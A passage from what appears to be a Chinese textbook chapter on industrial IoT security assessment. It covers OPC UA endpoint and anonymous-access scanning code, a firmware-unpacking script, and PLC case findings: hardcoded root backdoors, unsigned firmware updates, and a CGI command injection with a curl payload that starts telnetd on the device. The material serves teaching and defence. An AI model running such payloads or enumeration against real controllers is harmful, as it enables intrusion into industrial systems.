| Basic128Rsa15 | RSA-15 + AES-128 | 128位 | ⚠️ 弱 | 已废弃，存在已知攻击 |
| Basic256 | RSA-OAEP + AES-256 | 256位 | 🔶 中等 | 逐步淘汰中 |
| Basic256Sha256 | RSA-OAEP + AES-256-CBC + SHA-256 | 256位 | ✅ 推荐 | 当前主流安全策略 |
| Aes128-Sha256-RsaOaep | RSA-OAEP + AES-128-CBC + SHA-256 | 128位 | ✅ 推荐 | 性能优化版本 |
| Aes256-Sha256-RsaPss | RSA-PSS + AES-256-CBC + SHA-256 | 256位 | ✅ 最强 | 最新标准 |

### 评估脚本

```python
#!/usr/bin/env python3
"""
OPC UA安全评估脚本
功能：枚举端点、测试安全策略、检测匿名访问、枚举节点
依赖：pip install opcua-asyncio
"""
import asyncio
from asyncua import Client, ua
import ssl

class OPCUASecurityAssessor:
    def __init__(self, endpoint_url):
        self.endpoint = endpoint_url
        self.findings = []

    async def enumerate_endpoints(self):
        """枚举服务器所有安全端点"""
        print(f"\n[*] 枚举OPC UA端点: {self.endpoint}")
        try:
            # 无安全连接来获取端点列表
            client = Client(self.endpoint)
            client.session_timeout = 10000
            await client.connect()
            
            # 获取服务器端点描述
            endpoints = await client.get_endpoints()
            print(f"    发现 {len(endpoints)} 个端点:")
            
            for ep in endpoints:
                sec_mode = ep.SecurityMode
                sec_policy = ep.SecurityPolicyUri.split('#')[-1]
                user_tokens = ep.UserIdentityTokens
                
                mode_name = {
                    ua.MessageSecurityMode.None_: "None",
                    ua.MessageSecurityMode.Sign: "Sign", 
                    ua.MessageSecurityMode.SignAndEncrypt: "SignAndEncrypt"
                }.get(sec_mode, str(sec_mode))
                
                print(f"    端点: {ep.EndpointUrl}")
                print(f"    安全策略: {sec_policy}")
                print(f"    消息模式: {mode_name}")
                
                # 检查不安全配置
                if sec_mode == ua.MessageSecurityMode.None_:
                    self.findings.append({
                        'severity': 'CRITICAL',
                        'id': 'OPCUA-001',
                        'desc': f'端点使用无安全模式: {ep.EndpointUrl}',
                        'detail': '通信完全不加密、不签名，可被中间人攻击'
                    })
                
                if 'None' in sec_policy:
                    self.findings.append({
                        'severity': 'CRITICAL', 
                        'id': 'OPCUA-002',
                        'desc': f'端点使用None安全策略: {ep.EndpointUrl}',
                        'detail': '无加密传输，凭据可被嗅探'
                    })
                
                if 'Basic128Rsa15' in sec_policy:
                    self.findings.append({
                        'severity': 'HIGH',
                        'id': 'OPCUA-003',
                        'desc': f'端点使用已废弃的Basic128Rsa15策略',
                        'detail': '存在已知加密弱点，应升级到Basic256Sha256'
                    })
                
                # 检查用户认证方式
                for ut in user_tokens:
                    token_type = ut.TokenType
                    if token_type == ua.AnonymousIdentityToken:
                        self.findings.append({
                            'severity': 'HIGH',
                            'id': 'OPCUA-004',
                            'desc': '服务器支持匿名访问',
                            'detail': '攻击者无需凭据即可连接'
                        })
                        print(f"    [!] 支持匿名访问")
            
            await client.disconnect()
            return endpoints
        except Exception as e:
            print(f"    [-] 错误: {e}")
            return []

    async def test_anonymous_access(self):
        """测试匿名访问是否可以读取敏感数据"""
        print("\n[*] 测试匿名访问...")
        try:
            client = Client(self.endpoint)
            # 不设置任何认证凭据
            await client.connect()
            
            # 尝试读取服务器节点
            root = client.get_root_node()
            children = await root.get_children()
            print(f"    [+] 匿名连接成功，根节点有 {len(children)} 个子节点")
            
            # 尝试读取Objects节点下的变量
            objects = client.get_objects_node()
            obj_children = await objects.get_children()
            
            readable_vars = []
            for node in obj_children:
                try:
                    name = await node.read_display_name()
                    node_class = await node.read_node_class()
                    if node_class == ua.NodeClass.Variable:
                        value = await node.read_value()
                        readable_vars.append((name.Text, value))
                        print(f"    [!] 可读变量: {name.Text} = {value}")
                except Exception:
                    pass
            
            if readable_vars:
                self.findings.append({
                    'severity': 'CRITICAL',
                    'id': 'OPCUA-005',
                    'desc': f'匿名访问可读取 {len(readable_vars)} 个变量',
                    'detail': f'示例: {readable_vars[0][0]}={readable_vars[0][1]}'
                })
            
            await client.disconnect()
        except Exception as e:
            print(f"    [-] 匿名访问测试失败: {e}")

    async def enumerate_node_tree(self, depth=3):
        """枚举OPC UA地址空间（节点树）"""
        print(f"\n[*] 枚举OPC UA节点树 (深度={depth})...")
        try:
            client = Client(self.endpoint)
            await client.connect()
            
            async def walk_node(node, current_depth, path=""):
                if current_depth > depth:
                    return
                try:
                    name = await node.read_display_name()
                    node_class = await node.read_node_class()
                    current_path = f"{path}/{name.Text}"
                    
                    class_name = {
                        ua.NodeClass.Object: "Object",
                        ua.NodeClass.Variable: "Variable",
                        ua.NodeClass.Method: "Method",
                        ua.NodeClass.ObjectType: "ObjectType",
                    }.get(node_class, str(node_class))
                    
                    prefix = "  " * current_depth
                    extra = ""
                    
                    if node_class == ua.NodeClass.Variable:
                        try:
                            value = await node.read_value()
                            extra = f" = {str(value)[:50]}"
                        except:
                            extra = " [不可读]"
                    
                    print(f"    {prefix}[{class_name}] {name.Text}{extra}")
                    
                    if node_class in [ua.NodeClass.Object, ua.NodeClass.ObjectType]:
                        children = await node.get_children()
                        for child in children:
                            await walk_node(child, current_depth + 1, current_path)
                except Exception:
                    pass
            
            root = client.get_root_node()
            await walk_node(root, 0)
            await client.disconnect()
        except Exception as e:
            print(f"    [-] 枚举失败: {e}")

    def generate_report(self):
        print("\n" + "=" * 60)
        print("OPC UA安全评估报告")
        print(f"目标: {self.endpoint}")
        print("=" * 60)
        for f in self.findings:
            print(f"\n[{f['severity']}] {f['id']}: {f['desc']}")
            print(f"    详情: {f.get('detail', 'N/A')}")
        print(f"\n共发现 {len(self.findings)} 个安全问题")

async def main():
    assessor = OPCUASecurityAssessor("opc.tcp://10.10.100.30:4840")
    await assessor.enumerate_endpoints()
    await assessor.test_anonymous_access()
    await assessor.enumerate_node_tree(depth=3)
    assessor.generate_report()

if __name__ == "__main__":
    asyncio.run(main())
```

### OPC UA常见安全配置错误

| 错误配置 | 风险等级 | 检测方法 | 修复建议 |
|---------|---------|---------|---------|
| 允许None安全策略 | 🔴 严重 | 端点枚举 | 仅允许Basic256Sha256或更强 |
| 允许匿名访问 | 🔴 严重 | 匿名连接测试 | 仅允许X.509证书认证 |
| 证书自签名且未校验 | 🔴 严重 | 证书链分析 | 建立内部CA，强制证书校验 |
| 使用Basic128Rsa15 | 🟡 高 | 端点枚举 | 升级到Aes256-Sha256-RsaPss |
| 密钥长度不足（<2048位RSA） | 🟡 高 | 证书分析 | 使用2048位或更长RSA密钥 |
| 日志未记录安全事件 | 🟢 中 | 配置审查 | 启用安全审计日志 |
| 未实施访问控制列表 | 🟢 中 | 节点权限测试 | 按角色配置节点级权限 |

---

## 22.5.4 案例四：PLC固件逆向与后门分析

### 背景

PLC（Programmable Logic Controller）是工业控制的核心执行器。当安全评估无法直接访问运行中的PLC时，固件逆向分析是评估其安全性的有效手段。本案例展示如何从厂商官网下载固件、提取文件系统、定位硬编码凭据和后门逻辑。

### 目标设备

某国产PLC（型号模糊处理），固件版本V2.3.1，运行嵌入式Linux系统，支持Modbus TCP和EtherNet/IP协议。

### 固件获取与分析流程



```bash
#!/bin/bash
# PLC固件分析完整流程脚本
# 工具依赖：binwalk, squashfs-tools, strings, grep, file

FIRMWARE="$1"
WORK_DIR="firmware_analysis_$(date +%Y%m%d_%H%M%S)"

if [ -z "$FIRMWARE" ]; then
    echo "用法: $0 <固件文件>"
    exit 1
fi

mkdir -p "$WORK_DIR"
cd "$WORK_DIR"

echo "=== 阶段1：固件基本信息 ==="
file "../$FIRMWARE"
ls -lh "../$FIRMWARE"
echo ""

echo "=== 阶段2：熵分析（识别加密/压缩区域）==="
binwalk -E "../$FIRMWARE"
echo ""

echo "=== 阶段3：自动解包 ==="
binwalk -Me "../$FIRMWARE"
# 进入解包目录
EXTRACT_DIR=$(find . -name "_${FIRMWARE}*" -type d | head -1)
if [ -z "$EXTRACT_DIR" ]; then
    echo "[-] 自动解包失败，尝试手动分析"
    binwalk "../$FIRMWARE"
    exit 1
fi
cd "$EXTRACT_DIR"

echo "=== 阶段4：文件系统结构分析 ==="
echo "--- 目录结构 ---"
find . -type d | head -50
echo ""
echo "--- 可执行文件 ---"
find . -type f -executable | head -30
echo ""
echo "--- 配置文件 ---"
find . -name "*.conf" -o -name "*.cfg" -o -name "*.ini" -o -name "*.xml" -o -name "*.json" | head -20
echo ""
echo "--- 脚本文件 ---"
find . -name "*.sh" -o -name "*.py" -o -name "*.lua" | head -20

echo ""
echo "=== 阶段5：硬编码凭据搜索 ==="
echo "--- 密码/密钥字符串 ---"
grep -rni "password\|passwd\|secret\|private_key\|api_key\|token" \
    --include="*.conf" --include="*.xml" --include="*.json" \
    --include="*.sh" --include="*.ini" . 2>/dev/null | head -30
echo ""

echo "--- 硬编码IP/域名 ---"
grep -rnoP '\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b' \
    --include="*.conf" --include="*.xml" . 2>/dev/null | \
    grep -v "127.0.0.1\|0.0.0.0\|255.255.255" | head -20
echo ""

echo "--- SSH/Telnet后门检查 ---"
grep -rni "dropbear\|sshd\|telnetd\|busybox" \
    --include="*.sh" --include="*.conf" . 2>/dev/null | head -20
echo ""

echo "--- /etc/passwd分析 ---"
if [ -f "etc/passwd" ]; then
    echo "系统用户:"
    cat etc/passwd | grep -v "nologin\|false"
fi
if [ -f "etc/shadow" ]; then
    echo "Shadow文件（密码哈希）:"
    cat etc/shadow | grep -v ":\*:\|:!"
fi
echo ""

echo "--- /etc/init.d启动脚本检查 ---"
if [ -d "etc/init.d" ]; then
    for script in etc/init.d/*; do
        echo "=== $script ==="
        grep -i "telnet\|dropbear\|sshd\|backdoor\|remote\|debug" "$script" 2>/dev/null
    done
fi

echo ""
echo "=== 阶段6：加密算法识别 ==="
grep -rn "aes\|des\|rsa\|sha1\|md5\|hmac\|cipher" \
    --include="*.h" --include="*.c" --include="*.conf" . 2>/dev/null | head -20

echo ""
echo "=== 阶段7：Web接口检查 ==="
if [ -d "usr/www" ] || [ -d "var/www" ] || [ -d "www" ]; then
    WEB_DIR=$(find . -type d -name "www" | head -1)
    echo "Web目录: $WEB_DIR"
    find "$WEB_DIR" -name "*.cgi" -o -name "*.lua" -o -name "*.php" | head -20
    # 检查CGI脚本中的命令注入点
    grep -rn "system\|popen\|exec\|eval\|os\." "$WEB_DIR" 2>/dev/null | head -20
fi

echo ""
echo "=== 分析完成 ==="
echo "所有结果保存在: $(pwd)"
```

### 发现的关键问题

在对固件V2.3.1的分析中，发现以下严重安全问题：

**1. 硬编码SSH后门账户**

在 `/etc/passwd` 中发现隐藏的系统用户：
```text
support:$1$salt$hash_here:0:0:root:/root:/bin/sh
factory:$1$salt$hash_here:0:0:root:/root:/bin/sh
```

`/etc/init.d/S99local` 启动脚本中包含：
```bash
# 厂商"技术支持"后门
/usr/sbin/dropbear -p 2222 -R &
# 监听非标准端口2222，使用passwd中的硬编码账户
```

**2. 固件更新无签名验证**

```c
// 漏洞代码：固件更新函数（Ghidra反编译简化版）
void firmware_update(char *filepath) {
    FILE *f = fopen(filepath, "rb");
    // 读取固件头
    firmware_header_t header;
    fread(&header, sizeof(header), 1, f);
    
    // 仅检查魔数，不验证签名
    if (header.magic != FIRMWARE_MAGIC) {
        printf("Invalid firmware file\n");
        return;
    }
    
    // 直接写入Flash，无完整性校验
    flash_write(FIRMWARE_BASE_ADDR, f);
    printf("Firmware updated successfully\n");
    system("reboot");  // 更新后直接重启
}
```

攻击者可以构造包含恶意代码的固件文件，替换原始固件中的关键二进制（如Web服务器、Modbus服务），在不改变固件头魔数的情况下植入后门。

**3. Web管理接口命令注入**

`/usr/www/cgi-bin/config.cgi` 存在命令注入漏洞：
```c
// 反编译代码
void handle_config_write(char *query) {
    char cmd[256];
    char *name = get_param(query, "hostname");
    sprintf(cmd, "hostname %s", name);  // 未转义直接拼接
    system(cmd);  // 命令注入点
}
```

利用方式：
```bash
# 设置hostname的同时执行任意命令
curl "http://plc-ip/cgi-bin/config.cgi?hostname=test;telnetd%20-p%202323"
# 在PLC上启动telnet服务，端口2323
```

---

## 22.5.5 案例五：OT网络架构评估与供应链风险

### 背景

本案例不同于前四个聚焦于单点技术漏洞，而是从**系统架构层面**评估一家大型制造企业的OT网络安全状况。评估发现，最大的风险并非来自技术漏洞，而是来自**架构设计缺陷和供应链信任链断裂**。

### 评估方法论

采用NIST Cybersecurity Framework (CSF)结合IEC 62443标准进行系统性评估。



### 评估发现摘要

| 维度 | 评估项 | 当前状态 | 风险等级 | 差距分析 |
|------|--------|---------|---------|---------|
| 资产管理 | OT资产清单 | 仅覆盖60% | 🔴 高 | 缺少固件版本、IP-MAC绑定、供应商信息 |
| 网络分段 | Purdue模型合规 | Level 2-3无隔离 | 🔴 严重 | SCADA服务器与PLC在同一广播域 |
| 远程访问 | VPN安全性 | 仅密码认证 | 🔴 高 | 未启用MFA，使用共享账户 |
| 补丁管理 | OT系统补丁 | 平均滞后18个月 | 🟡 中 | 无OT专用补丁流程 |
| 监控 | OT入侵检测 | 未部署 | 🔴 高 | 无任何OT流量监控能力 |
| 备份 | PLC程序备份 | 纸质图纸存档 | 🟡 中 | 未建立电子化备份和恢复验证机制 |
| 供应链 | 第三方供应商管理 | 无安全审查 | 🔴 高 | 14家供应商有远程访问权限，无审计 |
| 事件响应 | OT应急计划 | 无独立计划 | 🔴 高 | 仅有IT侧应急计划，未覆盖OT场景 |

### 供应链攻击面分析

供应链风险是工业IoT安全中最容易被忽视、却最具破坏力的威胁。该企业的供应链攻击面包括：



**发现的具体供应链问题**：

1. **供应商远程访问不受控**：14家设备供应商通过TeamViewer/向日葵远程桌面直接访问工程师站，无会话录制、无操作审计
2. **固件更新无完整性验证**：PLC固件更新包通过邮件附件传输，无数字签名
3. **工程软件许可证共享**：TIA Portal/RSLogix等工程软件使用共享许可证服务器，所有工程师共用同一账户
4. **USB维护行为无管控**：供应商技术人员使用个人U盘进行程序上下载，无USB管控

### 供应链安全加固框架

| 措施类别 | 具体行动 | 实施优先级 | 负责部门 |
|---------|---------|-----------|---------|
| 远程访问管控 | 部署OT专用远程访问网关（如Claroty/Nozomi） | 🔴 紧急 | IT+OT联合 |
| 固件完整性 | 建立固件哈希白名单，更新前强制校验 | 🔴 紧急 | OT安全团队 |
| 第三方审计 | 所有供应商安全评估+合同安全条款 | 🟡 高 | 采购+安全部门 |
| USB管控 | 部署终端DLP，禁用未授权USB设备 | 🟡 高 | IT安全 |
| 网络分段 | 按Purdue模型重新划分VLAN+防火墙策略 | 🟡 高 | OT网络团队 |
| 资产管理 | 部署OT资产发现平台（如Armis/Censys） | 🟢 中 | OT运维 |
| 应急演练 | 每季度OT安全应急演练 | 🟢 中 | 安全+生产 |

---

## 工业IoT安全评估工具集

### 开源工具

| 工具名称 | 用途 | 支持协议 | 平台 |
|---------|------|---------|------|
| Nmap + NSE脚本 | 端口扫描、服务识别 | Modbus/DNP3/S7/ONVIF/BACnet | 全平台 |
| Modbus-cli | Modbus寄存器读写 | Modbus TCP/RTU | Python |
| mbtget | Modbus TCP客户端 | Modbus TCP | Linux |
| S7-brute | Siemens S7暴力破解 | S7comm | Python |
| Isf (Industrial Exploitation Framework) | ICS漏洞利用框架 | 多协议 | Python |
| Metasploit ICS模块 | 漏洞利用 | 多协议 | Ruby |
| Scapy | 协议分析与构造 | 任意自定义 | Python |
| Wireshark | 流量捕获分析 | 500+协议 | 全平台 |
| GRFICSv2 | 虚拟ICS仿真环境 | 多协议 | Docker |
| DVCP (Damn Vulnerable Chemical Process) | ICS安全练习 | OPC UA | Docker |
| Wireshark + EtherType解析器 | 工业以太网分析 | PROFINET/EtherCAT | 全平台 |
| Firmwalker | 固件文件系统分析 | N/A | Bash |

### 商业平台

| 平台 | 核心能力 | 部署方式 |
|------|---------|---------|
| Claroty | 资产发现、威胁检测、安全远程访问 | 软件/硬件 |
| Nozomi Networks | 资产可视化、异常检测、漏洞管理 | 软件/硬件 |
| Dragos | OT威胁情报、事件响应、资产发现 | 软件/硬件 |
| Tofino (Honeywell) | 工业防火墙、协议深度检测 | 硬件 |
| Armis | 无代理资产发现、风险评估 | SaaS |

---

## 合规与标准框架

### IEC 62443安全等级

IEC 62443是工业自动化和控制系统（IACS）安全的国际标准系列，定义了四个安全等级（SL）：

| 安全等级 | 威胁模型 | 防护能力 | 适用场景 |
|---------|---------|---------|---------|
| SL 1 | 偶然/巧合的威胁 | 防止无意误操作 | 非关键设施 |
| SL 2 | 简单故意威胁（低资源、低技能） | 防止简单工具攻击 | 一般工业设施 |
| SL 3 | 复杂故意威胁（中等资源、中等技能） | 防止专业攻击工具 | 关键基础设施 |
| SL 4 | 国家级威胁（高资源、高技能、APT） | 防止高级持续性威胁 | 核设施、军事目标 |

### NIST SP 800-82指南要点

NIST SP 800-82《工业控制系统安全指南》提供了ICS安全的全面框架：

- **识别阶段**：建立完整的ICS资产清单，包括硬件、软件、网络连接、数据流
- **保护阶段**：网络分段、访问控制、远程访问安全、物理安全
- **检测阶段**：部署IDS/IPS、日志监控、异常行为检测
- **响应阶段**：建立ICS专用事件响应计划，定期演练
- **恢复阶段**：备份验证、恢复优先级、业务连续性计划

---

## 本节小结

工业IoT安全评估是一项综合性工作，需要同时掌握IT安全技能和OT领域知识。本节通过五个实战案例展示了从协议层漏洞（Modbus/DNP3/OPC UA）到固件逆向、从架构评估到供应链风险管理的完整评估链路。

**核心经验总结**：

1. **协议安全是工业IoT的根基**：Modbus、DNP3等协议设计时假设网络可信，实际部署中必须通过防火墙和IDS弥补协议层的安全缺陷
2. **PLC固件是隐藏的攻击面**：大量PLC存在硬编码后门、未签名固件更新、明文存储凭据等问题，固件逆向是必要的评估手段
3. **供应链风险被严重低估**：供应商远程访问、固件更新渠道、工程软件管理是最大的安全隐患来源
4. **OT安全需要专用工具和方法论**：不能简单套用IT渗透测试方法，需要考虑生产安全、设备生命周期、合规要求等OT特有约束
5. **分层防御是唯一可行策略**：任何单一安全措施都不足以保护工业系统，必须建立从物理层到应用层的纵深防御体系

**进一步学习路径**：

| 阶段 | 学习内容 | 推荐资源 |
|------|---------|---------|
| 入门 | ICS安全基础概念、Purdue模型 | NIST SP 800-82 Rev.3 |
| 进阶 | 工业协议分析与安全测试 | ICS-CERT培训、SANS ICS课程 |
| 高级 | PLC/DCS固件逆向、漏洞挖掘 | GReAT团队报告、CVE数据库 |
| 专家 | APT级ICS攻击与防御 | Dragos年度报告、Mandiant ICS案例 |
